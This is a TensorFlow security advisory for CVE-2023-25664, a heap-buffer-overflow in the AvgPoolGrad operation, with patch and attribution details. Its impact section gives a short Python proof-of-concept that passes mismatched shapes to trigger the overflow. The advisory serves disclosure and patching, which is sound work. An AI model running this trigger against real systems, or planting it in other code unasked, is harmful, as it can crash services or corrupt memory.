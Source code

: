## TFSA-2023-180: Heap-buffer-overflow in AvgPoolGrad  

### CVE Number
CVE-2023-25664

### Impact
```python
import os
os.environ['TF_ENABLE_ONEDNN_OPTS'] = '0'
import tensorflow as tf
print(tf.__version__)
with tf.device("CPU"):
    ksize = [1, 40, 128, 1]
    strides = [1, 128, 128, 30]
    padding = "SAME"
    data_format = "NHWC"
    orig_input_shape = [11, 9, 78, 9]
    grad = tf.saturate_cast(tf.random.uniform([16, 16, 16, 16], minval=-128, maxval=129, dtype=tf.int64), dtype=tf.float32)
    res = tf.raw_ops.AvgPoolGrad(
        ksize=ksize,
        strides=strides,
        padding=padding,
        data_format=data_format,
        orig_input_shape=orig_input_shape,
        grad=grad,
    )
```

### Patches
We have patched the issue in GitHub commit [ddaac2bdd099bec5d7923dea45276a7558217e5b](https://github.com/tensorflow/tensorflow/commit/ddaac2bdd099bec5d7923dea45276a7558217e5b).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by <evn@google.com>
